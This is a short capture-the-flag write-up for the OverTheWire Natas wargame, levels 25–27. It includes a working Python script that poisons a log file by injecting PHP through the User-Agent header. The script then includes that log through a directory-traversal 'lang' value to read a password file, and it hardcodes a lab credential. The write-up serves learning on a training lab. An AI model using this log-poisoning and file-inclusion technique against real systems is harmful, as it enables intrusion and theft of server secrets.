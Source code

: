 # Natas 26
To solve this CTF, vulnerable parameter for me is **lang** as because content is generated due to lang parameter's value.
Here, **Directory Traversal** comes to my mind.

However, we look at the source code and identifies that we just access to "/etc/natas_webpass/natas26" file(Code Injection on User-Agent) with session located "var/www/natas/natas25/logs/"

```python
import requests

target = 'http://natas25.natas.labs.overthewire.org/?revelio=1'
auth = ('natas25', 'O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx')

session=requests.Session()
malhead={"User-Agent":'<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>'}

response = session.get(target, auth=auth)
response=session.post(url=target,headers=malhead,auth=auth,data={"lang" : "..././..././..././..././..././var/www/natas/natas25/logs/natas25_" +  session.cookies['PHPSESSID'] + ".log"})
print(response.text)
```
Output of above code can be hidden, that's why I put image for you to see.
![natas26](images/natas26.png)

# Natas 27
When we analyze the **Sessions** just see that there is session called "drawing" and encode this, we just see deserialized object.
Now, we just maliciously modify this, makes serialized and get password of natas27.

![natas271](images/natas271.png)
